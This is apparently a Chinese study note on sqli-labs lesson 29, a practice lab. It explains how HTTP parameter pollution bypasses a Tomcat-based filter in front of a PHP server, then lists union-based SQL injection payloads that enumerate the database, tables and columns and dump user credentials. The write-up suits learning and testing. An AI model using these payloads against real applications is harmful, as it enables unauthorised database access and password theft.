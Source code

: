```yaml
---
title: less29
url: https://www.yuque.com/u29002979/ep2zrx/mw031zihkm1gaxqf
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

> This Site Protected byWorld's Best Firewell
> 本网站受世界最佳防火墙保护

`**?id=1&id=2**`

> Your Login name:Angelina
> Your Password:I-kill-you

服务器端有两个部分：
第一部分是tomcat为引擎的jsp型服务器，
第二部分是apache为引擎的php服务器，
真正提供web服务的是php服务器,
往往在tomcat的服务器处做过滤处理，功能类似于waf，
由于解析参数的机制不同，我们可以利用该原理绕过waf的检测;
数据解析的顺序：tomcat从前往后， **appache从后往前**。\ <a name="ohpIT"></a>

# HTTP参数污染

<a name="iQW9u"></a>

## 联合查询

> **?id=1\&id=0'**

```bash
查看当前数据库名称
?id=1&id=0' union select 1,2,(select database()) --+

查看数据表名称
?id=1&id=0' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+

爆破字段名称
?id=1&id=0' union select 1,2,(select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users')--+

爆破字段内容 
?id=1&id=0' union select 1,2,(select group_concat(username,0x7e,password)from security.users )--+
```
